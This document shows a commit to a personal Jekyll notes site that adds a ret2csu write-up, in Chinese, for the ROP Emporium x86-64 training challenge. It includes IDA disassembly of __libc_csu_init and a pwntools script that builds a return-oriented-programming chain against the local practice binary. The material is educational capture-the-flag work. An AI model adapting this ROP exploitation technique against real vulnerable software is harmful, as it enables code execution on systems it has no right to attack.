

Before and after one commit to try2crack/notes, a Jekyll site: the page built from _posts/2021-03-28-ROP-Emporium-x86.markdown, in a window 1280 px wide and 1400 px high, scrolled down 4988 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5618 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add ret2csu

````diff
--- a/_posts/2021-03-28-ROP-Emporium-x86.markdown
+++ b/_posts/2021-03-28-ROP-Emporium-x86.markdown
@@ -255,6 +255,76 @@ sh.send(payload)
 
 sh.interactive()
 
+```
 
+## ret2csu 2021-04-04 00:35
+题目中主要的困难在于构造调用ret2win中的rdx，因为从代码里是搜索不到类似：pop rdx，ret的代码片的，但通过观察可以看到在ret2csu的__libc_csu_init中包含部分可以对rdx赋值的代码，如下：
+text:0000000000400640                 public __libc_csu_init
+.text:0000000000400640 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
+.text:0000000000400640 ; __unwind {
+.text:0000000000400640                 push    r15
+.text:0000000000400642                 push    r14
+.text:0000000000400644                 mov     r15, rdx
+.text:0000000000400647                 push    r13
+.text:0000000000400649                 push    r12
+.text:000000000040064B                 lea     r12, __frame_dummy_init_array_entry
+.text:0000000000400652                 push    rbp
+.text:0000000000400653                 lea     rbp, __do_global_dtors_aux_fini_array_entry
+.text:000000000040065A                 push    rbx
+.text:000000000040065B                 mov     r13d, edi
+.text:000000000040065E                 mov     r14, rsi
+.text:0000000000400661                 sub     rbp, r12
+.text:0000000000400664                 sub     rsp, 8
+.text:0000000000400668                 sar     rbp, 3
+.text:000000000040066C                 call    _init_proc
+.text:0000000000400671                 test    rbp, rbp
+.text:0000000000400674                 jz      short loc_400696
+.text:0000000000400676                 xor     ebx, ebx
+.text:0000000000400678                 nop     dword ptr [rax+rax+00000000h]
+.text:0000000000400680
+.text:0000000000400680 loc_400680:                             ; CODE XREF: __libc_csu_init+54↓j
+.text:0000000000400680                 mov     rdx, r15
+.text:0000000000400683                 mov     rsi, r14
+.text:0000000000400686                 mov     edi, r13d
+.text:0000000000400689                 call    qword ptr [r12+rbx*8]
+.text:000000000040068D                 add     rbx, 1
+.text:0000000000400691                 cmp     rbp, rbx
+.text:0000000000400694                 jnz     short loc_400680
+.text:0000000000400696
+.text:0000000000400696 loc_400696:                             ; CODE XREF: __libc_csu_init+34↑j
+.text:0000000000400696                 add     rsp, 8
+.text:000000000040069A                 pop     rbx
+.text:000000000040069B                 pop     rbp
+.text:000000000040069C                 pop     r12
+.text:000000000040069E                 pop     r13
+.text:00000000004006A0                 pop     r14
+.text:00000000004006A2                 pop     r15
+.text:00000000004006A4                 retn
+.text:00000000004006A4 ; } // starts at 400640
+.text:00000000004006A4 __libc_csu_init endp
 
+代码中0000000000400680位置有对rdx的赋值，如果在函数后面的执行过程中不会破坏掉这个寄存器，那么就可以把对rdx的赋值转换为对r15的赋值了，因此手动调试，并对此函数（__libc_csu_init）手动设置传入参数，然后观察执行后的rdx是否有被修改，经过测试可以满足预期，因此可以使用这种方式，来构造rdx，但同时注意在调用__libc_csu_init时，不能直接调用开始位置，因为这样会把r15寄存器修改掉，因此选择其后面的指令作为开始，这样就需要在压入两个寄存器来平衡栈数据（shellcode += p64(csu_address) + p64(0) + p64(0)）
+
+EXP:
+```python
+from pwn import *
+
+sh = process("./ret2csu")
+
+pop_rdi = 0x4006a3
+pop_rsi_r15 = 0x4006a1
+csu_address = 0x400647
+call_ret2win = 0x400510
+
+shellcode = b'A' * 0x28
+shellcode += p64(pop_rdi) + p64(0xdeadbeefdeadbeef)
+shellcode += p64(pop_rsi_r15) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
+shellcode += p64(csu_address) + p64(0) + p64(0)
+shellcode += p64(pop_rdi) + p64(0xdeadbeefdeadbeef)
+shellcode += p64(pop_rsi_r15) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
+shellcode += p64(0x40062a)
+
+raw_input()
+sh.send(shellcode)
+sh.interactive()
 ```
````
